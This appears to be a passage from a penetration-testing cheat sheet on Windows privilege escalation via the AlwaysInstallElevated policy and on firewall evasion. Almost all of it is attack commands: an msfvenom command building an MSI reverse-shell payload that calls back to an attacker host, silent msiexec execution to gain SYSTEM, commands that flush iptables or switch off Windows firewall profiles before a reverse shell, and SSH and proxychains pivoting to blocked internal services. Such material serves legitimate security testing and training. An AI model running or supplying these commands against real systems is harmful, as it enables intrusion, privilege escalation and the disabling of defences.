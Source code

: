 ### AlwaysInstallElevated

If these 2 registers are enabled (value is 0x1), users of any privilege can install (execute) .msi files as NT AUTHORITY\SYSTEM.

STEP 1: Check registers
```
# OPTION 1:
reg query HKCU\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated
reg query HKLM\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated

# OPTION 2:
reg query HKLM\SOFTWARE\Policies\Microsoft\Windows\Installer\AlwaysInstallElevated
reg query HKCU\SOFTWARE\Policies\Microsoft\Windows\Installer\AlwaysInstallElevated
```

STEP 2: Exploit
```
# generate MSI payload in Kali
$ msfvenom -p windows/x64/shell_reverse_tcp LHOST=[] LPORT=[] -f msi > rshell.msi

# upload to target then execute
cmd> msiexec /quiet /qn /i C:\temp\rshell.msi
```


## Firewall Disabling

Bypassing Linux firewalls.
```
# flush Iptables - delete all rules temporarily.
# add this command before executing reverse shell connection/command.
$ iptables --flush
```

Bypassing Windows firewalls.
```
# Win Vista, 7, 8, Server 2008, 10
cmd> netsh advfirewall set allprofiles state off
cmd> netsh advfirewall set currentprofile state off

# Older Win, XP, Server 2003
cmd> netsh firewall set opmode mode=DISABLE
```

Bypassing firewalls via. SSH local port forwarding.
* Enum'd a new port/service via. `netstat` but can't access it from within the target / it is blocked?
```
# static local port forwarding
$ ssh -L [local_port]:[target/jumpbox]:[blocked_port] [user]@[target]
# example - bypass blocked HTTP service on port 80
$ ssh -L 80:192.168.218.99:80 bob@192.168.218.99

# dynamic local port forwarding
$ ssh -N -D localhost:9050 user@[target/jumpbox]
$ proxychains curl http://localhost/exec            # interact with internal web server
$ proxychains nmap -sT -Pn -sV [internal_target]    # interact with internal target/host
```
